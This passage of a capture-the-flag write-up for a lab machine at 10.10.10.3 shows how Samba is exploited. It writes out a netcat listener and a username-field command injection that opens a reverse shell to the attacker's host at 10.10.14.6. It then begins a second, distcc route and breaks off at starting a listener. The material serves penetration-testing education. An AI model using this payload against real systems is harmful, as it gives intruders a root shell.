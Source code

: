 So we have two potential ways to exploit this machine.

## Exploitation \#1: Samba <a id="fcd7"></a>

Add a listener on attack machine.

```text
nc -nlvp 4444
```

Log into the smb client.

```text
smbclient //10.10.10.3/tmp
```

As mentioned in the previous section, we’ll send shell metacharacters into the username with a reverse shell payload.

```text
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```

The shell connects back to our attack machine and we have root! In this scenario, we didn’t need to escalate privileges.

![](../images/max/719/1*DdvA5iSrtgHA7NTjHO527A.png)

Grab the user flag.

![](../images/max/519/1*W-JJhSQNW8QMzh2M1XoUbA.png)

Grab the root flag.

![](../images/max/572/1*EFS66PmJse9YpGTSus10wA.png)

## Exploitation \#2: Distcc <a id="714d"></a>

In the previous section, we saw that this service is vulnerable to CVE 2004–2687 and there’s an nmap script that can be used to exploit this vulnerability and run arbitrary commands on the target machine.

First, start a listener on the attack machine.
